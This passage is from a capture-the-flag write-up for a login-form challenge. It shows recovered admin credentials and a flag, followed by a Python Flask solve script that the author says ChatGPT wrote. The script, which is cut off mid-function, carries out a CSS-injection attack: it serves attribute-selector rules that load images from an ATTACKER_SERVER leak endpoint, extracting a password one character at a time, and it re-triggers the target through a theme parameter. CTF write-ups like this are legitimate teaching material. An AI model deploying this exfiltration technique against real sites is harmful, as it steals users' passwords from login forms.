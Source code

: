 ```
admin:F0x13foXtrOT&Elas7icBe4n5
```



```
Welcome admin! You earned yourself a flag: flag{6b1f095e79699a79dc4a366c1131313e}
```


After submitting the flag, I decided to use ChatGPT to write an automated solve script. I should have done this at the start, to reduce manual effort/error 😆


```python
from flask import Flask, Response
from urllib.parse import quote
import argparse
import requests

app = Flask(__name__)

S = {
    'attacker': 'https://ATTACKER_SERVER',
    'target': 'https://fancy-login-form.ctf.zone',
    'report_path': '/report.php',
    'charset': 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789!@#$%^&*()_+-=~[]\\|;:\'",./',
    'prefix': '',
    'auto_revisit': True
}


def css_attr_escape(s: str) -> str:
    return s.replace("\\", "\\\\").replace('"', '\\"')


@app.get("/")
def idx():
    return f"prefix:{S['prefix']} css:{S['attacker']}/css/ocean"


@app.get("/css/ocean.css")
def ocean():
    p = S['prefix']
    rules = []
    for ch in S['charset']:
        cand = p + ch
        leak = f"{S['attacker']}/leak/{quote(cand, safe='')}"
        sel = f'input[name="password"][value^="{css_attr_escape(cand)}"]'
        rules.append(f"{sel}{{background-image:url('{leak}')}}")
    css = ''.join(rules)
    resp = Response(css, mimetype="text/css")
    resp.headers['Cache-Control'] = 'no-store, no-cache, must-revalidate, max-age=0'
    resp.headers['Pragma'] = 'no-cache'
    resp.headers['Expires'] = '0'
    return resp


@app.get("/leak/<path:cand>")
def leak(cand):
    if cand.startswith(S['prefix']) and len(cand) > len(S['prefix']):
        S['prefix'] = cand
        print("[+]", S['prefix'], flush=True)
        if S.get('auto_revisit'):
            try:
                url = f"{S['target']}/?theme={S['attacker']}/css/ocean"
```